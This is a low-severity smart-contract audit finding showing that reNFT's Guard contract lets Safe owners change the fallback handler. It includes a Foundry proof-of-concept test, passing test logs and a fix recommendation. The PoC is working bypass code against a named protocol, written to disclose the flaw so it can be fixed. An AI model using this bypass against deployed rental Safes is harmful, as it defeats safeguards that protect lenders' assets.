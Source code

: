 ## [L - 01 ] - Safe's Fallback Handler Can be Changed

There are currently some checks in Guard that ensure certain delicate actions aren't allowed to be performed by owners of a safe, but the current implementation doesn't block calls that change the safe fallback handler.
This could lead to compatibility issues and some other possible issues.

As discussed with a sponsor, this isn't an intended behaviour.

I have added a coded POC to show how this can be changed.

Add the below test to `/test/integration/StopRent.t.sol`, then import:
 ```
import {Enum} from "@safe-contracts/common/Enum.sol";
```
and then add this dummy contract:
```
contract DummyFallbackHandler {}
```
then run:
```
forge test -vvv --match-path test/integration/StopRent.t.sol --match-test test_ADDHANDLER
```
```
     function test_ADDHANDLER() public {
        //this will later be done in the setUp function
        DummyFallbackHandler handler = new DummyFallbackHandler();
        //we will be working with bob
        // speed up in time past the rental expiration
        // vm.warp(block.timestamp + 750);

        //get safe's current nonce
        uint256 nonce = alice.safe.nonce();
        bytes memory _calldata = abi.encodeWithSelector(
            bytes4(keccak256("setFallbackHandler(address)")),
            handler
        );
        // bytes memory _calldata = abi.encodeWithSelector(0x42966c68, 0);

        bytes32 dataHash = alice.safe.getTransactionHash(
            address(alice.safe),
            uint256(0),
            _calldata,
            Enum.Operation.Call,
            uint256(0),
            uint256(0),
            uint256(0),
            address(0),
            payable(0),
            nonce
        );

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alice.privateKey, dataHash);
        bytes memory signature = new bytes(65);
        assembly {
            mstore(add(signature, 32), r)
            mstore(add(signature, 64), s)
            mstore8(add(signature, 96), v)
        }

        alice.safe.execTransaction(
            address(alice.safe), //self call to the safe itself
            0,
            _calldata,
            Enum.Operation.Call, //Call
            0,
            0,
            0,
            address(0),
            payable(0),
            signature
        );
    }
```

Here are the logs:
```
[⠆] Compiling...
[⠘] Compiling 1 files with 0.8.22
[⠊] Solc 0.8.22 finished in 45.57sCompiler run successful!
[⠒] Solc 0.8.22 finished in 45.57s

Running 1 test for test/integration/StopRent.t.sol:TestStopRent
[PASS] test_ADDHANDLER() (gas: 143368)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.24ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## RECOMMENDATION
Add a check in the [Guard::_checkTransaction](https://github.com/re-nft/smart-contracts/blob/3ddd32455a849c3c6dc3c3aad7a33a6c9b44c291/src/policies/Guard.sol#L195) function to block such requests